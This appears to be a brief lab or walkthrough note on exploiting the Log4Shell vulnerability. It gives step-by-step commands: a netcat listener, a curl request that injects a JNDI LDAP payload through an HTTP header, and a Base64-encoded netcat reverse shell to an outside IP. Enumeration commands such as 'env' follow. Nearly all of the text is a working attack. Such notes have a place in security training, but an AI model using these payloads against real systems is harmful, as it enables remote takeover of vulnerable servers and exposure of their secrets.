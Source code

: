 Steps:
- Start a listener `screen -S nc`
```
nc -lvp 7777
```
- Detach the session
- Send the upgraded payload:
```
curl ipaddr:8080 -H 'X-Api-Version: ${jndi:ldap://my_ip_addr:1389/Basic/Command/Base64/bmMgLW52IDE3My4zMS4yNC4xMCA3Nzc3IC1lIC9iaW4vc2g=}'
```
NOTES:
- bmMgLW52IDE3My4zMS4yNC4xMCA3Nzc3IC1lIC9iaW4vc2g= refers to the command `nc -nv 173.31.24.10 7777 -e /bin/sh`

- If you go back to the netcat session `screen -r nc`, you will see a new message stating that connection
![[nc.png]]

- Now **perform some enumeration**:
	- `uname -a`
	- `whoami`
	- `env` (environment variables)




